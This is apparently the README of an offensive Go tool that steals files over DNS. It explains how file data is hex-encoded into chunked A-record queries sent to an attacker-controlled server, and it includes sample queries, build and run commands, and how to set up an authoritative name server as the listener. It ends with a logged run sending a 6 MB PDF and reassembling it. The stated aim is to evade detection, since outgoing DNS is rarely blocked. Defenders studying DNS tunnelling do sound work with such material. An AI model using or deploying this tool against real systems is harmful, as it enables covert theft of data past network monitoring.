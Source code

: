 # Data Exfiltration using pure DNS

## Demo

https://www.youtube.com/watch?v=NtNpLDhnbno

## Why

Pure DNS data exfilitration is difficult to detect and most environments do not block outgoing DNS traffic. The data itself is masquerading as `A` record DNS requests.

## How it works

We split the file (data) into chunks and send them via DNS requests, up to 3 chunks at a time. For example a small file like `go.mod` will result in the following `A` record DNS requests:
```
6d6f64756c65206769746875622e636f6d2f7477697a3731382f646e732d65.7866696c74726174696f6e0a0a676f20312e32332e310a0a72657175697265.20280a096769746875622e636f6d2f6861736869636f72702f676f6c616e67.exfil
2d6c72752f76322076322e302e370a096769746875622e636f6d2f6d69656b.672f646e732076312e312e36340a096769746875622e636f6d2f7374726574.6368722f746573746966792076312e31302e300a290a0a7265717569726520.exfil
280a096769746875622e636f6d2f646176656367682f676f2d737065772076.312e312e31202f2f20696e6469726563740a096769746875622e636f6d2f70.6d657a6172642f676f2d646966666c69622076312e302e30202f2f20696e64.exfil
69726563740a09676f6c616e672e6f72672f782f6d6f642076302e32332e30.202f2f20696e6469726563740a09676f6c616e672e6f72672f782f6e657420.76302e33352e30202f2f20696e6469726563740a09676f6c616e672e6f7267.exfil
2f782f73796e632076302e31312e30202f2f20696e6469726563740a09676f.6c616e672e6f72672f782f7379732076302e33302e30202f2f20696e646972.6563740a09676f6c616e672e6f72672f782f746f6f6c732076302e33302e30.exfil
202f2f20696e6469726563740a09676f706b672e696e2f79616d6c2e763320.76332e302e31202f2f20696e6469726563740a290a.exfil
```

The segments in the fully qualified domain names are the hex representations of the file data chunks. 

The DNS requests themselves will also include [EDNS0](https://en.wikipedia.org/wiki/Extension_Mechanisms_for_DNS) keys/values for file related metadata to assist the server with reassembly.

The server will save all the data chunks until it receives the last one and then write the data out to a file.


## Server

### Building

#### Building on Windows
`go build -o server.exe main.go`

#### Building on Linux / macOS
`go build -o server main.go`

### Running

There are two ways to run the server:

1. You can run it on any machine that can receive traffic from the Internet and then hit it directly via the `send` (client) program.
2. You can run this on your own registered domain's authoritative NS as the listener. ie: you own `foobarbaz.net`, you would modify the server and client code and replace every occurrence of `exfil` with `foobarbaz.net`. Then when you run `send` you would point it to your resolver and it would find the authoritative NS for `foobarbaz.net` and send the queries there.

### Usage
```
  -debug
        enable debug output
  -port int
        dns server port (default 5555)
```

## Client

### Building

#### Building on Windows

`go build -o send.exe .\cmd\send.go`

#### Building on Linux or macOS

`go build -o send ./cmd/send.go`

### Running

Sending a `6mb` file takes `~12s` via pure DNS:

```
PS C:\Users\akhanin\go\src\dns-exfiltration> .\send.exe -file C:\Users\akhanin\Documents\warez_book_0339.1.00.pdf -port 5555 -server 127.0.0.1
Time elapsed: 12.1207572s
```

On the server side:
```
.\server.exe 
2025/04/05 16:04:26 Server is starting on port 5555
2025/04/05 16:04:31 Cache is currently empty.
2025/04/05 16:04:31 Incoming file with md5: 479476f1023f5b5007c2b444e191c5d9, expected number of chunks: 192925
2025/04/05 16:04:36 Number of keys in cache: 1. Keys = [479476f1023f5b5007c2b444e191c5d9]
2025/04/05 16:04:41 Number of keys in cache: 1. Keys = [479476f1023f5b5007c2b444e191c5d9]
2025/04/05 16:04:43 Finished writing data for 479476f1023f5b5007c2b444e191c5d9
2025/04/05 16:04:46 Cache is currently empty.
```

Checking the file sent:
```
PS C:\Users\akhanin\go\src\dns-exfiltration> dir .\479476f1023f5b5007c2b444e191c5d9.data


    Directory: C:\Users\akhanin\go\src\dns-exfiltration


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          4/5/2025   4:04 PM        5980656 479476f1023f5b5007c2b444e191c5d9.data
```

Checking the file type:
```
akhanin@SUPERUNKNOWN2020 ~/dev/dns-exfiltration
$ file 479476f1023f5b5007c2b444e191c5d9.data
479476f1023f5b5007c2b444e191c5d9.data: PDF document, version 1.3 (password protected)
```
